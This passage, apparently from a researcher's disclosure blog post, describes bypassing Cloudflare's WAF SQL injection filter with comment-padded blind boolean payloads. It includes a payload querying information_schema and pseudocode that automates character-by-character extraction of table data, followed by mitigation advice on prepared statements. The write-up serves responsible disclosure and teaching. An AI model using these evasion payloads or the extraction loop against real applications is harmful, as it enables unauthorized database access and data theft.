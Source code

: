 Thus, applying this method on *INJECTION 1*, would make it look like this:

{% highlight sql %}
'0x61' LIKE
 (SELECT/*trick comment*/ SUBSTRING(column_name, 1, 1)
  FROM/*trick comment*/ information_schema.columns
  WHERE table_name = "t1"
  LIMIT 0, 1
 )
{% endhighlight %}

The above injection is in its final form and when passed as a form value to the
vulnerable web application the web server will reply with a 200 OK if the
character 'a' matches the first character of the first column's name of table
t1.

#### Full Speed Ahead
To make the retrieving of table contents from the application's database easier
I wrote a script in Python to automate the process. The pseudocode of the script
goes something like this:

{% highlight python %}
# assert names of columns and table name is known
alphabet = [a,b,c,...,y,z]
characterPosition = 1 # the position of the character we are bruteforcing
for rowNumber in [0,20]:
  for columnName in columns:
    for character in alphabet:
      sqlInjection = '''
        0x{hex_encode(character)} LIKE (
        SELECT/*trick comment*/ SUBSTRING({columnName}, characterPosition,1)
        FROM/*trick comment*/ tableName
        LIMIT {rowNumber}, 1
        )
      '''

      inject sqlInjection is POST request body
      if response.status == 200:
        result += character
        recurse function with characterPosition++
      elif response.status == 500:
        continue with next character in alphabet

      return result
{% endhighlight %}

And this is how I bypassed Cloudflare WAF's SQL injection protection. I got a
free t-shirt and a place in [Cloudflare's HoF][cf-hof].

#### Mitigation
<p>Cloudlfare reviewed and fixed the vulnerability a few days after my report.</p>
The safest way to mitigate SQL injections on your databases is prepared
statements. These come in most database interaction libraries for most
languages. You can find a full list of ways to mitigate SQL injections at
[OWASP][owasp-sql].
It is my opinion that if developers take good care to apply security measures
on their applications, WAFs are most of the times unnecessary. All you need to
do is sanitize the users' input properly.

[cf-hof]: https://hackerone.com/gskourou
[owasp-sql]:    https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
